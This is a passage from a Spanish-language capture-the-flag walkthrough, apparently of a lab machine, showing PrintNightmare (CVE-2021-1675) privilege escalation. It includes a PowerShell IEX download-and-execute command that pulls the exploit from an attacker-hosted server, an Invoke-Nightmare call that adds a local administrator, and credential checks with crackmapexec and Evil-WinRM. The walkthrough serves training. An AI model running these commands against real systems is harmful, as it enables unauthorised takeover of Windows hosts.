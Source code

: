 Una vez que lo tengas copiado, vamos a subirlo a la máquina, a través de un **servidor en Python** y en la máquina con **IEX**, hagámoslo por pasos:

* Abre el servidor en **Python** en donde tengas el Exploit:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Carga el Exploit en la máquina con **IEX**:
```batch
*Evil-WinRM* PS C:\Windows\Temp\Privesc> IEX(New-Object Net.WebClient).downloadString('http://Tu_IP/CVE-2021-1675.ps1')
```

* Vemos los usuarios que hay:
```batch
*Evil-WinRM* PS C:\Windows\Temp\Privesc> net user
User accounts for \\
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
tony
The command completed with one or more errors.
```

* Usamos el código que viene en el **GitHub** para crear un nuevo usuario administrador:
```batch
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Invoke-Nightmare -DriverName "Xerox" -NewUser "berserkW" -NewPassword "SuperSecure"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user berserkW as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

* Comprobamos que se creó el nuevo usuario administrador:
```batch
*Evil-WinRM* PS C:\Windows\Temp\Privesc> net user
User accounts for \\
-------------------------------------------------------------------------------
Administrator            berserkW                 DefaultAccount
Guest                    tony
The command completed with one or more errors.
```

* Comprobamos con **Crackmapexec**, si el usuario y contraseña sirven:
```bash
crackmapexec winrm 10.10.11.106 -u 'berserkW' -p 'SuperSecure'
SMB         10.10.11.106    5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.10.11.106    5985   DRIVER           [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   DRIVER           [+] DRIVER\berserkW:SuperSecure (Pwn3d!)
```

* Nos conectamos por **Evil-WinRM** y obtenemos la flag:
```batch
evil-winrm -i 10.10.11.106 -u 'berserkW' -p 'SuperSecure'
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\berserkW\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
    Directory: C:\Users\Administrator\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
```